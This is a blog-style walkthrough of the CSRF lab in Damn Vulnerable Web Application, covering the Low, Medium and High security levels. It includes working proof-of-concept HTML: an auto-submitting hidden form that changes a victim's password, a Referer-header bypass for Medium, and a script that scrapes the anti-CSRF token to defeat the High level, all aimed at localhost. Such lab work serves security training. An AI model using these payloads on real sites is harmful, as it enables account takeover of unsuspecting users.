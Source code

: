 ```yaml
---
layout: post
title:  "Damn Vulnerable Web Application - Part 3 / 12 CSRF"
date:   2024-04-29 20:00
image:  /images/dvwa-walkthrough/DVWA.jpg
tags:   [appsec,php,owasp,csrf]
categories: [Walkthrough]
---
```


# Cross Site Request Forgery (CSRF)
>Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.
<br/>
<br/>
<b>Reference:</b>
<a href="https://owasp.org/www-community/attacks/csrf">OWASP</a>

### Security Level: `Low`

![DVWA CSRF Initial page](/images//dvwa-walkthrough/csrf/csrf-initial.png)


1. Reset the password and capture the request in Burp Suite. We can use the Burp Suite CSRF PoC generator to generate a PoC or we can use the below html code to test the form.

```
<html>
  <body>
    <form action='http://localhost:4280/vulnerabilities/csrf/'>
      <input type="hidden" name="password&#95;new" value="password" />
      <input type="hidden" name="password&#95;conf" value="password" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Preview of above html form:
![DVWA CSRF Malicious page](/images//dvwa-walkthrough/csrf/csrf-malicious-form.png)

#### Source Code:

![DVWA CSRF Low](/images/dvwa-walkthrough/csrf/csrf-low-source-code.png)
<br/>

### Security Level: `Medium`

When trying the same approach for the `Low` CSRF lab we get the following error:

![DVWA CSRF Medium Error](/images//dvwa-walkthrough/csrf/csrf-medium-error.png)

`Warning: Undefined array key "HTTP_REFERER" in /var/www/html/vulnerabilities/csrf/source/medium.php on line 5` indicates that there is a missing header value (`HTTP_REFERER`). We'll update the referer header to have the same path and parameters as our request.

![DVWA CSRF Medium Solution](/images//dvwa-walkthrough/csrf/csrf-medium-solution.png)

#### Source Code:

![DVWA CSRF Medium](/images/dvwa-walkthrough/csrf/csrf-medium-source-code.png)
<br/>

### Security Level: `High`

Inspecting the form we notice that the High security level form has a hidden input for user_token. This user_token is refreshed with every new request made to the server. [Read more on CSRF tokens ](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#synchronizer-token-pattern).

![DVWA CSRF High Solution](/images//dvwa-walkthrough/csrf/csrf-high-form.png)

To bypass this we'll in our malicious form we'll have to request a new CSRF token from the server and use that token to send our request.

The below javascript code requests a new CSRF token by sending a GET request to the page. We'll utilize regex `/[a-f0-9]{32}/g` to extract the user token from the response received. 
We then use the extracted user_token and add it to the malicious update request's query paramters.

```
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <title>Malicious File</title>
    
</head>
<body onload="maliciousFunction()">
    <p>;)</p>
    <script>
        function maliciousFunction(){
            const request = new XMLHttpRequest();
            
            request.open("GET", "http://localhost:4280/vulnerabilities/csrf/");
            request.onreadystatechange = () => {
            if (request.readyState === request.DONE && request.status === 200) {

                var response = request.responseText;
                var token = /[a-f0-9]{32}/g.exec(response)[0]
                var second_request = new XMLHttpRequest();
                second_request.open("GET", "http://localhost:4280/vulnerabilities/csrf/?password_new=zwarts&password_conf=zwarts&Change=Change&user_token="+token);
                second_request.send()

            }};

            request.send()
        }
        </script>
</body>
</html> 
```

`WIP - Add steps to upload above form to execute on visit, can't execute form from 3rd party because cors isn't enabled.`